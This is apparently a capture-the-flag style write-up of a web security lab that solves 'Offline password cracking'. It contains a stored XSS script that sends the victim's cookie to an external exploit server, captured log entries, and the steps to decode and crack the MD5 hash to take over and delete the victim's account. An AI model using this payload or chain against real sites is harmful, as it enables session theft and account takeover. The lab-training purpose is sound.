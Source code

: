 # Offline password cracking
This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.

* Your credentials: `wiener:peter`
* Victim's username: `carlos`

## Solution
As we log in as `wiener`, we can find the cookie `stay-logged-in`, which is again Base64 encoded and contains the username and the password MD5 hashed.

Since we know that the system has a XSS vulnerability in the comment section of the posts, we can create a payload that steals this cookie from the user. We are given an exploit server in this lab as well:

![Exploit server](../images/Offline_password_cracking_0.png)

A possible payload can look like this:
```js
<script>let cookie = document.cookie;window.location.replace("https://exploit-0aec001b03936b9680c37fb2014b0005.exploit-server.net/exploit" + cookie);</script>
```

With that we could create such a comment:

![Comment](../images/Offline_password_cracking_1.png)

If we check now the logs of the exploit server, we find this entry:
```
10.0.3.107      2024-09-10 14:48:42 +0000 "GET /exploitstay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz;%20secret=NAZ652h8HNTwZr2hVTZOeDyi5rEze406 HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```

The other entries where my test accesses and got a public IP. For example, this would be the entry if we access the post as `wiener`:
```
XXX.XXX.XXX.XXX  2024-09-10 14:48:51 +0000 "GET /exploitstay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36"
```

The cookie can be verified with the HTTP traffic, a browser extension or if we decode it. Latter, we will do for the cookie, that we received from the private IP: `Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz`

Base64 decoded we got the value `carlos:26323c16d5f4dabff3bb136f2460a943` and if we enter the hash into [CrackStation](https://crackstation.net/) we find the corresponding password `onceuponatime`:

![CrackStation](../images/Offline_password_cracking_2.png)

With the credentials, we can now log in as `carlos`, hit "Delete account" and confirm it with the password:

![Account Deletion](../images/Offline_password_cracking_3.png)

If we do so, the lab will be solved:

![Solved lab](../images/Offline_password_cracking_4.png)
